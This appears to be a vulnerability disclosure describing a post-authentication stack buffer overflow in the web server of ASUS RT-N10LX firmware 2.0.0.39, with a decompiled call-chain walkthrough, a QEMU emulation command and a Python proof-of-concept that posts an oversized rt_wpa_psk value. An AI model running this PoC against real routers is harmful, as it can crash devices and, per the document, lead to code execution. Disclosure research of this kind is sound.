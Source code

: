 ## buffer overflow in rt_wpa_psk of update_variables



**Affected Product**: ASUS RT-N10LX

**Affected Firmware Versions**: v.2.0.0.39

**Official Firmware Resources** :[ASUS RT-N10LX firmware v.2.0.0.39 v.2.0.0.39](https://cn.driverscollection.com/_5246336426127ef295a27bea27a/下载-ASUS-RT-N10LX-firmware-v.2.0.0.39-。。。的驱动-Windows-10-(32-64-bit)-8.1-(32-64-bit)-8-(32-64-bit)-7-(32-64-bit)-Vista-(32-64-bit)-XP-(32-64-bit)-Server-2003-(32-64-bit)-Mac-OS-Server-2000-Others-免费)

**Vulnerability Type**: Buffer Overflow

**CVE Identifier**: 

------

### **Vulnerability Details**

#### **Description**

A stack-based buffer overflow exists in the HTTPD service through the `update_variables` endpoint. The vulnerability occurs when processing POST requests containing the `rt_wpa_psk` parameter. Specifically:

1. The `sub_412CCC` function handles requests to `get_wan_status.asp`.
2. User-controlled `update_variables` input is copied to buffer `v21`using `sprintf` without proper bounds checking.
3. The `v21` buffer is only **64  bytes** in size.

This vulnerability requires authentication to exploit, making it a post-authentication vulnerability.





![image-20250627101507664](../res/image-20250627101507664-17509905092341.png)



![image-20250627101552817](../res/image-20250627101552817-17509905545452.png)

 

### exploitation process

**1、** After initialization in the main function, it enters the `sub_4052BC` function to handle HTTP requests:

![image-20250625170755611](../../ASUS RT-N10LX v.2.0.0.39/res/image-20250625170755611.png)



**2、**Traverses the routing table - all entries will execute the `do_ej` function to process responses:



![image-20250625171240555](../../ASUS RT-N10LX v.2.0.0.39/res/image-20250625171240555-17508427619493.png)



![image-20250625171311589](../../ASUS RT-N10LX v.2.0.0.39/res/image-20250625171311589-17508427928874.png)

**3、**`do_ej` calls `sub_40E99C` → `sub_40E758` → traverses `ej_handlers`:

![image-20250625171717996](../../ASUS RT-N10LX v.2.0.0.39/res/image-20250625171717996-17508430394475.png)

4、When matching the `update_variables` function, it enters `sub_412CCC` and triggers the vulnerability:



![image-20250625171803600](../../ASUS RT-N10LX v.2.0.0.39/res/image-20250625171803600-17508430851546.png)

#### **QEMU Emulation Setup**

`sudo chroot . ./qemu-mips-static   -g 1234  ./bin/httpd`



------

### **Proof of Concept (PoC)**

```
import requests
from requests.auth import HTTPBasicAuth

router_ip = "192.168.107.135"
url = f"http://{router_ip}/get_wan_status.asp/update_variables"
username = "1"
password = "1"
payload = 'A' * 2048

data = {
    
    "rt_wpa_psk": payload,
    "action_mode":QIS_Apply,
    "current_page":"/qis/QIS_wireless.htm"
    
}

headers = {
    "User-Agent": "Mozilla/5.0",
    "Content-Type": "application/x-www-form-urlencoded",
}

try:
    response = requests.post(
        url,
        data=data,
        headers=headers,
        auth=HTTPBasicAuth(username, password),

    )

    print(f"HTTP Status: {response.status_code}")
    print("Response Content:")
    print(response.text)

    if "Internal Server Error" in response.text:
        print("Server Error Detected")
    elif response.status_code == 500:
        print("Internal Server Error (500)")
    elif response.status_code == 0:
        print("Connection Reset")

except requests.exceptions.ConnectionError:
    print("Connection Failed - Potential Service Crash")
except requests.exceptions.RequestException as e:
    print(f"Request Error: {str(e)}")
except Exception as e:
    print(f"Unexpected Error: {str(e)}")
```



### Exploitation Results


The PoC demonstrates successful overflow of the `v21` buffer on the stack. , the overflow overwrites the return address, granting control of the PC register. This enables arbitrary code execution by crafting a ROP chain or shellcode payload.

